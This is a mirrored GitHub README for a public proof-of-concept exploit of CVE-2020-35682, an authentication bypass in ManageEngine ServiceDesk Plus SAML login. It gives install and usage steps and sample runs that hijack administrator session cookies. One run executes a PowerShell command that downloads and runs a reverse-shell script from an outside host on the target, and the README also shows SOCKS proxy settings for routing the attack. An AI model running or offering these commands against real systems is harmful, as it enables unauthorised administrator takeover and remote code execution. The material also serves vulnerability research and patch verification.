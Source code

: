 # CVE-2020-35682

SD-91948: CVE-2020-35682: Authentication Bypass Vulnerability during SAML login in ServiceDesk Plus.

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/its-arun](https://github.com/its-arun) |
| Url      | [https://github.com/its-arun/CVE-2020-35682](https://github.com/its-arun/CVE-2020-35682)                                               |
| Stars    | 7                                                          |
| License  | MIT License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2020-35682

SD-91948: CVE-2020-35682: Authentication Bypass Vulnerability during SAML login in ServiceDesk Plus. (As described by [ManageEngine](https://www.manageengine.com/products/service-desk/on-premises/readme.html)). If the target ServiceDesk Plus (<11134) installation has SAML login enabled and you have credentials to a low privilege user then you can escalate to administrator and gain RCE.

I decided to release this POC since there is neither any public exploit nor much description available for exploiting said bug. The code is quite messy but it works.

## Installation

```bash
git clone https://github.com/its-arun/CVE-2020-35682.git
cd CVE-2020-35682
pip3 install -r requirements.txt
chmod +x exploit.py
```

## Usage

```
┌─[✗]─[felli0t@damnlab]─[~/POCs/CVE-2020-35682]
└──╼ $./exploit.py -h
usage: exploit.py [-h] -u URL -e EMAIL -p PASSWORD -d DOMAIN [-x PAYLOAD] [-a ADMINUSERNAME]

CVE-2020-35682 : Authentication Bypass Vulnerability during SAML login in ServiceDesk Plus

optional arguments:
  -h, --help            show this help message and exit
  -x PAYLOAD, --payload PAYLOAD
                        Payload to execute on target, eg: "powershell iex(iwr http://192.168.2.10:8080/reverseshell.ps1
                        -usebasicparsing)"
  -a ADMINUSERNAME, --adminusername ADMINUSERNAME
                        Admin Username, default: administrator

required named arguments:
  -u URL, --url URL     ServiceDesk Plus installation url, eg. https://tenet.local/sdp
  -e EMAIL, --email EMAIL
                        User E-mail for SAML Login, eg: chris@tenent.local
  -p PASSWORD, --password PASSWORD
                        User Password for SAML Login
  -d DOMAIN, --domain DOMAIN
                        Domain, eg: TENET
```
#### Get Administrator Cookie

```
┌─[felli0t@damnlab]─[~/POCs/CVE-2020-35682]
└──╼ $./exploit.py -u "https://tenet.local/sdp" -e 'chris@tenet.local' -p 'P@ssw0rd' -d "TENET"
[+] Created session as administrator.
[+] Use following cookies to login as administrator
	=[COOKIE NAME]=                =[COOKIE VALUE]=              
	JSESSIONIDSSO                  E1D80C738E12085360A789109D43A233
	PORTALID                       1                             
	SDPSESSIONID                   918B7C63186055F72EAD2DEAC34B4CA9

```

#### Execute command on target

```
┌─[felli0t@damnlab]─[~/POCs/CVE-2020-35682]
└──╼ $./exploit.py -u "https://tenet.local/sdp" -e 'chris@tenet.local' -p 'P@ssw0rd' -d "TENET" -x "powershell iex(iwr http://192.168.2.10:8080/reverseshell.ps1 -usebasicparsing)"
[+] Created session as administrator.
[+] Use following cookies to login as administrator
	=[COOKIE NAME]=                =[COOKIE VALUE]=              
	JSESSIONIDSSO                  2316433DF39DFFE8ACD4E1DDD759D259
	PORTALID                       1                             
	SDPSESSIONID                   666788540DB6329CB7E59E1E96FF30EB
[+] Created custom trigger ADQRYN11WA6KEXIQ
[+] Created Request to trigger custom action ADQRYN11WA6KEXIQ
[+] Executed "powershell iex(iwr http://192.168.2.10:8080/reverseshell.ps1 -usebasicparsing)" on "https://tenet.local/sdp"
[+] Deleted Request ADQRYN11WA6KEXIQ
[+] Deleted Custom Action ADQRYN11WA6KEXIQ

```

#### Using with proxy

Proxies can be defined on line 9 in exploit.py in following format
```python
proxies = {'http': 'socks4://127.0.0.1:9050','https': 'socks4://127.0.0.1:9050'}
```
Or you can set proxy as environment variable if you don't wish to edit source
```bash
export HTTP_PROXY="socks4://127.0.0.1:9050"
export HTTPS_PROXY="socks4://127.0.0.1:9050"
```
Make sure to unset these variables after running exploit.
```bash
unset HTTP_PROXY HTTPS_PROXY
```



## Get the content

```
git clone https://github.com/its-arun/CVE-2020-35682
cd CVE-2020-35682
```

{% embed url="https://github.com/its-arun/CVE-2020-35682" %}

<figure><img src="https://avatars.githubusercontent.com/u/20841421?v=4" alt=""><figcaption><p>its-arun</p></figcaption></figure>
